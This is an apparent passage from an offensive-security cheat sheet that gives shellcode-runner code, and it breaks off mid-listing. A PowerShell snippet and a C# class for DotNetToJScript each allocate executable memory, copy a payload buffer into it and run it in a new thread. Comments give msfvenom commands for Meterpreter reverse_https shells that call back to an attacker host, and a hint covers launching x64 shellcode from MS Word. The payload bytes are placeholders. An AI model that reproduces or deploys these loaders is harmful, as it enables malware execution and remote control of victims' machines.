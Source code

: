 ```powershell
$lpMem = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((lookupFunc kernel32.dll VirtualAlloc), (getDelegateType @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr]))).Invoke([IntPtr]::Zero, 0x1000, 0x3000, 0x40)
# msfvenom -p windows/meterpreter/reverse_https LHOST=10.10.13.37 LPORT=443 EXITFUNC=thread -f ps1
[Byte[]] $buf = 0x31,0x33,...,0x33,0x37
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $lpMem, $buf.length)

$hThread = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((lookupFunc kernel32.dll CreateThread), (getDelegateType @([IntPtr], [UInt32], [IntPtr], [IntPtr], [UInt32], [IntPtr]) ([IntPtr]))).Invoke([IntPtr]::Zero, 0, $lpMem, [IntPtr]::Zero, 0, [IntPtr]::Zero)
[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((lookupFunc kernel32.dll WaitForSingleObject), (getDelegateType @([IntPtr], [Int32]) ([Int]))).Invoke($hThread, 0xFFFFFFFF)
```
{% endcode %}

{% hint style="info" %}
In order to run x64 shellcode from a 32-bit application (e.g., MS Word), you may want to specify the path to 64-bit PowerShell binary through [Sysnative](https://www.samlogic.net/articles/sysnative-folder-64-bit-windows.htm) alias.
{% endhint %}




## C\#



### C\# DLL to Jscript

* [https://github.com/tyranid/DotNetToJScript](https://github.com/tyranid/DotNetToJScript)

{% code title="TestClass.cs" %}
```csharp
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;

[ComVisible(true)]
public class TestClass
{
    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

    [DllImport("kernel32.dll")]
    static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

    [DllImport("kernel32.dll")]
    static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

    public TestClass()
    {
        // msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.13.37 LPORT=443 -f csharp
        byte[] buf = new byte[???] {
        0x31,0x33,...,0x33,0x37 };

        IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);
        Marshal.Copy(buf, 0, addr, buf.Length);
        IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
        WaitForSingleObject(hThread, 0xFFFFFFFF);
    }

    public void RunProcess(string path)
    {
```